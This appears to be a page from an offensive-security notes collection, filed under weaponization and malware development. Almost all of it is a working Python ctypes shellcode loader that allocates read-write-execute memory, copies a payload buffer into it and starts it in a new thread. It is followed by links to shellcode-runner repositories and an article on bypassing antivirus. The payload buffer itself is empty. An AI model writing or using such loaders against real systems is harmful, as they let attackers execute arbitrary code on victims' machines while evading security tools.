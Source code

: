 # Python

```python
import ctypes

shellcode = bytearray()
 
kernel32 = ctypes.windll.kernel32

VirtualAlloc = kernel32.VirtualAlloc
RtlMoveMemory = kernel32.RtlMoveMemory
CreateThread = kernel32.CreateThread
WaitForSingleObject = kernel32.WaitForSingleObject

pointer = VirtualAlloc(ctypes.c_int(0), ctypes.c_int(len(shellcode)),
                   ctypes.c_int(0x3000), ctypes.c_int(0x40))
 
buf = (ctypes.c_char * len(shellcode)).from_buffer(shellcode)
 
RtlMoveMemory(ctypes.c_int(pointer), buf, ctypes.c_int(len(shellcode)))
 
handle_thread = CreateThread(ctypes.c_int(0), ctypes.c_int(0), ctypes.c_int(pointer),
                  ctypes.c_int(0), ctypes.c_int(0), ctypes.pointer(ctypes.c_int(0)))
 
WaitForSingleObject(ctypes.c_int(handle_thread),ctypes.c_int(-1))
```

---
## References

### Backlinks

- [[06 - Tactics & Techniques & Procedures (TTPs) Phases/C - Initial Access/0x01 - Weaponization/0xC - Client-Side Attacks/Malware Development/Payload Execution/Shellcode Loader/Memory Allocation/Windows/WinAPI/Simple Loader/Virtual Allocation/C]]

### Source Repositories

- https://momonguyen.com/2021/python-shellcode-runner/

- https://github.com/momo1239/buffshark-shellcode-runner

### Debasish Mandal

- [Debasish Mandal: Execute ShellCode Using Python](https://www.debasish.in/2012/04/execute-shellcode-using-python.html)

### Pentura Lab

- [Pentura Lab: Execute Shellcode, Bypassing Anti-Virus…](https://penturalabs.wordpress.com/2014/07/18/execute-shellcode-bypassing-anti-virus/)